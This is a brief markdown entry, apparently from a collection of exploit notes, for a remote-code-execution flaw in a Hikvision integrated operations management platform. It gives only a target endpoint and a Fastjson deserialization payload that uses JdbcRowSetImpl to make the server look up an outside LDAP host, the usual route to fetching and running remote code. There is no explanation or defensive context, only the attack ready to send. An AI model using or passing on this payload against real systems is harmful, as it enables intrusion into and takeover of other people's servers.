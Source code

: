 ## 海康威视综合运营管理平台RCE漏洞

> URL

```
/bic/ssoService/v1/applyCT
```

> Payload

```
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.dnstunnel.run","autoCommit":true}}
```
